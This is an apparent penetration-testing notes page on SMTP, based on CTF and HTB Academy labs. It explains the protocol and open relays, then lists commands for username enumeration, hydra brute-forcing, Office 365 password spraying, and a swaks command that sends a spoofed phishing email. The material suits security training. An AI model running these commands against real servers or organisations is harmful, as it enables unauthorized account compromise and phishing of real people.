

# SMTP

> *Source CTF and HTB Academy*

- Usually on port 25, 465, 587

The Simple Mail Transfer Protocol (SMTP) is a protocol for sending emails in an IP network. It can be used between an email client and an outgoing mail server or between two SMTP servers. SMTP is often combined with the IMAP or POP3 protocols, which can fetch emails and send emails. In principle, it is a client-server-based protocol, although SMTP can be used between a client and a server and between two SMTP servers. In this case, a server effectively acts as a client.  
An essential function of an SMTP server is preventing spam using authentication mechanisms that allow only authorized users to send e-mails. For this purpose, most modern SMTP servers support the protocol extension ESMTP with SMTP-Auth. After sending his e-mail, the SMTP client, also known as Mail User Agent (MUA), converts it into a header and a body and uploads both to the SMTP server. This has a so-called Mail Transfer Agent (MTA), the software basis for sending and receiving e-mails. The MTA checks the e-mail for size and spam and then stores it. To relieve the MTA, it is occasionally preceded by a Mail Submission Agent (MSA), which checks the validity, i.e., the origin of the e-mail. This MSA is also called Relay server. These are very important later on, as the so-called Open Relay Attack can be carried out on many SMTP servers due to incorrect configuration.  



- ESMTP extended smtp: will return delivery confirmation and uses TLS
- When people talk about SMTP in general, they usually mean ESMTP

## Default configuration

- `cat /etc/postfix/main.cf | grep -v "#" | sed -r "/^\s*$/d"`

|Command|Description|
|-------|-----------|
|`AUTH PLAIN`|AUTH is a service extension used to authenticate the client.|
|`HELO`|The client logs in with its computer name and thus starts the session.|
|`MAIL FROM`|The client names the email sender.|
|`RCPT TO`|The client names the email recipient.|
|`DATA`|The client initiates the transmission of the email.|
|`RSET`|The client aborts the initiated transmission but keeps the connection between client and server.|
|`VRFY`|The client checks if a mailbox is available for message transfer.|
|`EXPN`|The client also checks if a mailbox is available for messaging with this command.|
|`NOOP`|The client requests a response from the server to prevent  disconnection due to time-out.|
|`QUIT`|The client terminates the session.|

## Dangerous Settings

- Open relay configuration `mynetworks = 0.0.0.0/0` With this setting, this SMTP server can send fake emails and thus initialize communication between multiple parties. Another attack possibility would be to spoof the email and read it.

## Enumeration

- [MXToolbox](https://mxtoolbox.com/)
- `host -t MX hackthebox.eu`
- `dig mx plaintext.do | grep "MX" | grep -v ";"`
- `host -t A mail1.inlanefreight.htb`

### Nmap

- `sudo nmap 10.129.14.128 -sC -sV -p25`
- `sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v`
- `sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128`

### Telnet

```bash
telnet TARGET-IP 25
AUTH
```

- Example

```bash
telnet 10.129.14.128 25
HELO mail1.inlanefreight.htb
EHLO mail1
```

- [SMTP errors and reply codes](https://serversmtp.com/smtp-error/)

## Connect to the email account

- `openssl s_client -starttls smtp -connect mail.target.com:587`

## Password spray and bruteforce

- `hydra -L users.txt TARGET-IP smtp-enum`
- The SMTP server has different commands that can be used to enumerate valid usernames VRFY, EXPN, and RCPT TO. If we successfully enumerate valid usernames, we can attempt to password spray, brute-forcing, or guess a valid password. 

```bash
telnet 10.129.14.128 25
# VRFY
VRFY root
252 2.0.0 root
VRFY www-data
252 2.0.0 www-data
VRFY new-user
550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table
# EXPN
EXPN john
250 2.1.0 john@inlanefreight.htb
EXPN support-team
250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
# RCPT TO
MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok
RCPT TO:julio
550 5.1.1 julio... User unknown
RCPT TO:kate
550 5.1.1 kate... User unknown
RCPT TO:john
250 2.1.5 john... Recipient ok

# user enumeration
USER julio
-ERR
USER john
+OK
```

- [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum)
- `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`

## Cloud Enumeration

Cloud service providers use their own implementation for email services. Those services commonly have custom features that we can abuse for operation, such as username enumeration.  

- [O365spray](https://github.com/0xZDH/o365spray)

```bash
# Validate if target uses office 365
python3 o365spray.py --validate --domain msplaintext.xyz
# identify usernames
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```

## Password Attacks

- `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`
- `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msp`

## Open Relay

> See above for more info on this misconfiguration

- `nmap -p25 -Pn --script smtp-open-relay 10.10.11.213`

Next, we can use any mail client to connect to the mail server and send our email.  

- `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213`

## Resources

 Pentesting SMTP/s - Hacktricks   